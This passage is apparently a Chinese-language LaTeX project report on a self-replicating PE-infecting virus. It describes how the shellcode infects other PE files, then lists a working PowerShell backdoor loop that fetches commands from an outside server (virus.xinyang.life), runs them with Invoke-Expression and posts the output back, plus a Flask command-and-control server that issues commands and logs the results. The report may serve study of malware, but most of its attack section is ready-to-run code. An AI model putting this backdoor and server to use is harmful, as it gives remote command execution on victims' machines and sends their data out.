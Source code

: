 \documentclass[UTF8]{ctexart}
\begin{document}
    有了起始地址、大小、预留字段位置这三个信息后，通过 \ref{sec:insert-shellcode} 中的方式，便可以将 ShellCode 自身传染插入到另一个 PE 文件中，实现``病毒的自我复制''。
 
    \subsection{远程指令执行}
    远程指令执行是本项目的一个可选功能，其原理就是ShellCode在执行时会使用 \lstinline{CreateProcessA()} 创建一个新进程，这个进程作为客户端，持续从远端服务器获取待执行的指令，如果成功获取指令，则执行该指令，并将执行结果发回远端服务器。
    
    \subsubsection{客户端程序}
    由于实现网络操作的系统调用不在KERNEL32.DLL中，假如要使用这些函数的话，需要宿主程序也加载了网络库，会限制病毒的感染范围。所以，我们选择使用KERNEL32.DLL中的 \lstinline{CreateProcessA()} 函数，创建PowerShell进程执行一段脚本，实现上述功能。
    
    \begin{lstlisting}[language=PowerShell,caption={PowerShell后门脚本},label={lst:backdoor}]
while(1){
Invoke-RestMethod -UseBasicParsing -Uri "https://virus.xinyang.life/result" \
    -Method POST -Body @{r=$(Invoke-Expression \
$(Invoke-RestMethod -UseBasicParsing -Uri "https://virus.xinyang.life/" \
    -Method POST -TimeoutSec 60).c | Out-String) \
} \
-TimeoutSec 60 \
}
    \end{lstlisting}
    
    具体的PowerShell脚本如代码~\ref{lst:backdoor} 所示，为了尽可能减小代码的体积，脚本的可读性较差，故解释如下：脚本整体由3条指令构成，最内层指令为 \lstinline{Invoke-RestMethod}，向服务器请求要执行的指令；获取到的指令作为 \lstinline{Invoke-Expression} 的参数执行；执行后返回的结果再交由 \lstinline{Invoke-RestMethod} ，发送回客户端。

    \subsubsection{服务端程序}
    服务端程序位于 \lstinline{src/server} 目录下。为了简便，使用Python和Flask开发了一个简单的服务端程序，功能仅有发送固定指令和记录ShellCode返回的执行结果。代码如 \ref{lst:backdoor-server} 所示。
    
    \begin{lstlisting}[language=python,caption={“后门”服务端程序},captionpos=b,label={lst:backdoor-server}]
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def command():
    return {"status":"ok", "c":"netstat -na;Start-Sleep -Seconds 5"}

@app.route('/result', methods=['POST'])
def result():
    with open('./result.txt', 'a+') as f:
        f.write(request.form["r"])
        f.write("---")
    return {}
    \end{lstlisting}
    
\end{document}
